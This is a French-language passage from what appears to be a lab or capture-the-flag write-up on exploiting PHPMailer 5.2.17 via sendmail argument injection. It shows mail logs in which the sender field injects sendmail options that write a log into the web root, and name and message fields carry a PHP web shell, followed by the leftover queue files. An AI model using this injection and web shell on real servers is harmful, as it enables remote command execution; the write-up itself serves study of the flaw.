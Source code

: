 ```plain
12964 >>>             by 12081bd067cc (8.14.4/8.14.4/Submit) id 20D7P4U8012964 
12964 >>>             for some"@email.com; Thu, 13 Jan 2022 07:25:04 GMT 
12964 >>> X-Authentication-Warning: 12081bd067cc: www-data set sender to attacker\ using -f 
12964 >>> X-Authentication-Warning: 12081bd067cc: Processed from queue /tmp/ 
12964 >>> To: Donkey <admin@dockerdonkey.com> 
12964 >>> Subject: Message from zz<?php system($_GET['cmd']); ?>zz_name 
12964 >>> X-PHP-Originating-Script: 0:class.phpmailer.php 
12964 >>> Date: Thu, 13 Jan 2022 07:20:24 +0000
```

Et après un moment on a la fin :  

```plain
12964 >>> From: Docker Donkey Server <"attacker\" -oQ/tmp/ -X/www/phpcode.php   some"@email.com> 
12964 >>> Message-ID: <0acccfff72a67c6805d080b6d6f5ab8f@192.168.101.132> 
12964 >>> X-Mailer: PHPMailer 5.2.17 (https://github.com/PHPMailer/PHPMailer) 
12964 >>> MIME-Version: 1.0 
12964 >>> Content-Type: text/plain; charset=iso-8859-1 
12964 >>>   
12964 >>> zz<?php system($_GET['cmd']); ?>zz_message 
12964 >>>   
12964 >>> . 
12964 <<< 250 Ok 
12964 >>> QUIT 
12964 <<< 221 Bye
```

Bref le champ *name* (qui apparaît plus tôt) est plus intéressant que le champ *message*. D'ailleurs Metasploit n'utilise pas ce dernier.  

L'exploitation laisse des traces, on a ainsi deux fichier créés dans */tmp* :  

```plain
-rw-rw----       1 www-data www-data             44 Jan 13 07:27 df20D7P4U8012964
-rw-rw----       1 www-data www-data         1015 Jan 13 07:29 qf20D7P4U8012964
```

Le premier ne contient que le message :   

```plain
zz<?php system($_GET['cmd']); ?>zz_message
```

Le second ressemble à un mix d'entêtes et de charabia :  

```plain
V8 
T1642058704 
K1642058944 
N1 
P60509 
Msome"@email.com... Unbalanced '"' 
Fbs 
$_www-data@localhost 
${daemon_flags}c u 
Sattacker\ 
rRFC822; admin@dockerdonkey.com 
RPFD:Donkey <admin@dockerdonkey.com> 
H?P?Return-Path: <�g> 
H??Received: (from www-data@localhost) 
               by 12081bd067cc (8.14.4/8.14.4/Submit) id 20D7P4U8012964 
               for some"@email.com; Thu, 13 Jan 2022 07:25:04 GMT 
H??X-Authentication-Warning: 12081bd067cc: www-data set sender to attacker\ using -f 
H??X-Authentication-Warning: 12081bd067cc: Processed from queue /tmp/ 
H??To: Donkey <admin@dockerdonkey.com> 
H??Subject: Message from zz<?php system($_GET['cmd']); ?>zz_name 
H??X-PHP-Originating-Script: 0:class.phpmailer.php 
H??Date: Thu, 13 Jan 2022 07:20:24 +0000 
```
